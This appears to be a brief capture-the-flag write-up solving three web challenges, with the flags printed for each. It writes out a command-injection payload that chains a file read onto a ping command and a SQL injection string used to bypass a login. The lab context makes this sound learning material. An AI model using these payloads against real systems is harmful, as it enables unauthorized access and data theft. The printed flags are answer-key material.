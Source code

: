 # WEB

## Trapped Source

View page source -> correctPin: "8291"
> HTB{V13w_50urc3_c4n_b3_u53ful!!!}

## Gunhead

Simple command injection - enter `/ping 1 & cat /flag.txt` and get the flag
![Gunhead - command injection](Gunhead.png)

> HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}

## Drobots

Since my Web knowledge is very limited read about [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
and then entered these credentials on the login screen:
`admin`
`" or ""="`

![Drobots - SQL injection](Drobots.png)

> HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}

